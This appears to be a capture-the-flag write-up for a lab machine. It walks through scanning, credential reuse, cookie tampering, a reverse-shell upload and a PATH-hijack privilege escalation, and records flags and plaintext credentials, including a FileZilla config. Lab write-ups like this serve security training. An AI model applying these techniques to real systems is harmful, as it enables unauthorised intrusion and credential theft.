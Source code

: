 ## Oppsie 
 > export IP = 10.10.10.28
 
## nmap scans
 > sudo nmap -sS -A 10.10.10.28

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
	| ssh-hostkey: 
	|   2048 61:e4:3f:d4:1e:e2:b2:f1:0d:3c:ed:36:28:36:67:c7 (RSA)
	|   256 24:1d:a4:17:d4:e3:2a:9c:90:5c:30:58:8f:60:77:8d (ECDSA)
	|_  256 78:03:0e:b4:a1:af:e5:c2:f9:8d:29:05:3e:29:c9:f2 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
	|_http-server-header: Apache/2.4.29 (Ubuntu)
	|_http-title: Welcome
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel  

AS WE CAN SEE THERE IS APACHE SERVER RUNNING ON PORT 80, AND OPEN SSH PORT 22. NOW WE WILL LOOK FOR ALL THE DIRECTORIES AT THE PORT 80 THAT COULD BE RUNNING.

## GoBuster Scans
gobuster dir -x "php, json, txt, html, css, xml, js" -u "http://$IP/" -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt 2> /dev/null
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.28/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              php,json,txt,html,css,xml,js
[+] Timeout:                 10s
===============================================================
2021/09/29 10:22:44 Starting gobuster in directory enumeration mode
===============================================================
/images               (Status: 301) [Size: 311] [--> http://10.10.10.28/images/]
/index.php            (Status: 200) [Size: 10932]                               
/themes               (Status: 301) [Size: 311] [--> http://10.10.10.28/themes/]
/uploads              (Status: 301) [Size: 312] [--> http://10.10.10.28/uploads/]
/css                  (Status: 301) [Size: 308] [--> http://10.10.10.28/css/]    
/js                   (Status: 301) [Size: 307] [--> http://10.10.10.28/js/]     
/fonts                (Status: 301) [Size: 310] [--> http://10.10.10.28/fonts/] 


## Nikto Scan
See Nikto.log

found http://$IP/cdn-cgi/login/

Used Credentials:
	username: admin
	pw: MEGACORP_4dm1n!!


We found an email address in the index page for the admin: admin@megacorp.com. Might be useful later on.


Once logged in under accounts it is visible that we've got access to all the account ids, email and usernames. Hence we run a script account_enum.py

SUPER ADMIN FOUND UNDER ID=30

ACC ID 	USERNAME 		EMAIL

86575	super admin 	superadmin@megacorp.com

Once changed our cookies, was able to access the uploads  page in the management section as Super Admin

Uploaded reverseShell.php thorugh the upload form

was able to exec the scrpt through http://$IP/uploads/ page

we are in as www-data user


Found Creds: /var/www/htmlcdn-cgi/login/db.php
robert
M3g4C0rpUs3r!
garage


SSH'd with credentials above ^ and found user.txt file
f2c74ee8db7983851ab2a96a44eb7981


> id
uid=0(root) gid=1000(robert) groups=1000(robert),1001(bugtracker)

there is a group of users bugtracker 

> find / -type f -group bugtracker 2>/dev/null
/usr/bin/bugtracker

We found a file bugtracker, once checked all the lines of the file (string bugtracker) we can see that it contains a cat line which accesses stuff from root. 

> cd tmp
> echo /bin/bash > cat

What can we do? When run which cat, we can see that /bin/cat comes up. that is the location where cat command is run from. What we have to do is make sure we run cat file we just created before the /bin/ one 

> echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin

Hence:

> export PATH=/home/robert/tmp:$PATH
> echo $PATH
/home/robert/tmp:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin


If we run which cat now, we would expect /home/robert/tmp/cat, however, when we run it now we still see /bin/cat

That is because we have to change file mode and make executable

> chmod +x cat
> which cat
/home/robert/tmp/cat

If we execute bugtracker file now, it will give us root access

> bugtracker
.. and we have root access

af13b0bee69f8a877c3faf667f7beacf


<?xml version="1.0" encoding="UTF-8" standalone="yes" ?>
<FileZilla3>
    <RecentServers>
        <Server>
            <Host>10.10.10.46</Host>
            <Port>21</Port>
            <Protocol>0</Protocol>
            <Type>0</Type>
            <User>ftpuser</User>
            <Pass>mc@F1l3ZilL4</Pass>
            <Logontype>1</Logontype>
            <TimezoneOffset>0</TimezoneOffset>
            <PasvMode>MODE_DEFAULT</PasvMode>
            <MaximumMultipleConnections>0</MaximumMultipleConnections>
            <EncodingType>Auto</EncodingType>
            <BypassProxy>0</BypassProxy>
        </Server>
    </RecentServers>
</FileZilla3>


